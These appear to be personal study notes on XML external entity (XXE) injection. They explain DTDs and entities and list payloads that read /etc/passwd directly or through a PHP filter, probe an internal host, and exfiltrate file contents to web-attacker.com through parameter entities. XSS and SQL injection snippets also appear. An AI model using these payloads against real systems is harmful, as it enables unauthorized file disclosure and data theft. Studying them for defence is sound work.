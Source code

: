 So we can mess with all of this references.

<!DOCTYPE foo[<!ENTITY xxe SYSTEM "file:///etc/passwd"]>

XML validator: https://www.w3schools.com/xml/xml_validator.asp

Validate XML with python:

import xml.etree.ElementTree as ET

try:
 ET.parse(FILENAME)
except:
 print("Inalid!")

THE EXTERNAL ENTITY ATTACK:
------------------------------

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE docname [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<entity>&xxe;</entity>

USING PHP FILTER:
-----------

<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/resource=/etc/passwd">
]>

ENTITY IS BASICALLY AN VARIABLE WITH ITS VALUE: there can be anything within value such: <script>alert</script> or 1 OR 1--

XXE vulnerabilities arise because the XML specification contains various potentially dangerous features

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

Define DTD and Entity: 

<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>

<!DOCTYPE myfoodtd[<!ASDF myentity "value" >]>

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>

<!DOCTYPE foo[<!ENTITY ext SYSTEM "URL" ]>

Using EVAL, eval:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
